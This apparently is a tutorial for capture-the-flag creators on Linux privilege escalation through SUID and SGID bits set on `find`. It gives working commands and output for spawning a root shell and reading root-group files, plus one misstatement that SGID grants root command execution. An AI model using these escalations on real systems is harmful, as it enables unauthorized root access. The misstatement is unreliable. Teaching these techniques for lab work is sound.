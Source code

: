 # Linux Privilege Escalation - SUID/SGID for CTF Creators


# SUID/SGID

A Set User ID (SUID) can be misconfigured to elevate privileges. Similarly, a Set Group ID (SGID) could have incorrect permissions in place.

### Set UID (SUID)
A file with the SUID bit set will always execute with the privileges of the file's owner, regardless of the user executing the command. This means that if a file owned by the root user has the SUID bit set, it will execute with root privileges, potentially leading to privilege escalation if misconfigured.

### Set GID (SGID)
- **On a File**: If the SGID bit is set on a file, it allows the file to be executed with the privileges of the group that owns the file.
- **On a Directory**: If the SGID bit is set on a directory, any files created within that directory will inherit the group ownership of the directory, rather than the primary group of the user who created the file.

# Privilege Escalation via SUID

Let's set a SUID bit to the `find` command, to do that we need to locate the `find` binary:

```shell
which find
```

Once we found the absolute path of the `find` binary, add a SUID bit to it:

```shell
sudo chmod u+s /usr/bin/find
```

Then by using the following command, we can enumerate all the binaries and scripts that have the SUID permission set, this is known as the **Symbolic Method** because it uses symbols.

```shell
find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null | grep find | xargs ls -l
```

Alternatively, we could use the **Octal/Numeric Method**, which uses octal values:

```shell
find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null | grep find | xargs ls -l
```

Now we know that the SUID bit is enabled for the `find` command which means that we can execute any command as the root user using the `find` command since the Super User ID (SUID) is 0 (root). Try the following command, which tries to find anything in the current working directory with the command (`find .`) then it uses the `-exec` parameter which handles the `id` command, then we have a `\` to escape the semicolon character (`;`) because the shell will interpret the semicolon character if it's not escaped:

```shell
find . -exec "id" \;
```

This means that we can execute any command as root, so we could, for example, spawn a bash shell as root:

```shell
user@pwn:~$ /usr/bin/find . -exec /bin/bash -p \; -quit
bash-5.0# id
uid=1000 (user) gid=1000 (user) euid=0(root) groups=1000 (user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare)
bash-5.0# whoami
root
bash-5.0# 
```

For more SUID binary shell escapes we can search on [GTFOBins](https://gtfobins.github.io/#+suid) with the SUID tag, as we can see, `GTFOBins` has a lot of SUID binary commands that we can use to escalate privileges. This repository is a cheat sheet of binaries. On this site, we can find ways to escalate privileges using SUID bit sets and more.

# Privilege Escalation via SGID

Let's add an `SGID` bit to the `/usr/bin/find` binary:

```shell
sudo chmod u-s /usr/bin/find && sudo chmod g+s /usr/bin/find
```

Then by using the following command, we can enumerate all the binaries and scripts having `SGID` permission. We can find `SGID` binaries using the Symbolic method:

```shell
find / -perm -g=s 2>/dev/null
find / -perm -g=s 2>/dev/null | grep find | xargs ls -l
```

Alternatively, we can use the Octal/Numeric method, which uses octal values:

```shell
find / -perm -2000 2>/dev/null
find / -perm -2000 2>/dev/null | grep find | xargs ls -l
```

Now we know that the `SGID` bit is enabled by using the `find` command which means that we can execute any command as the root user using the `find` command since the Super Group ID (SGID) is 0 (root). Try the following command, which tries to find anything in the current working directory with the command (`find .`) then it uses the `-exec` parameter which handles the `id` command, then we have a `\` to escape the semicolon character (`;`) because the shell will interpret the semicolon character if it's not escaped, lastly we pipe this output and filter the `gid` string or text with the `grep` command:

```shell
user@pwn:~$  find . -exec "id" \; | grep egid
uid=1000 (user) gid=1000 (user) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000 (user)
```

This allows us to read files that are readable by the root group, we can test this by creating a file as root:

```shell
sudo vim test
```

Write any message that we want:

```txt
This was created by root and only root can read it.
```

Change the permissions for other users and groups:

```shell
sudo chmod o-r test
```

Now try to read the file as `others`:

```shell
cat test
```

Since the `find` binary has an SGID bit set we can try to read some files on the system that belong to the root group.

```shell
user@pwn:~$ /usr/bin/find . -exec cat test \; -quit
This was created by root and only root can read it.
```
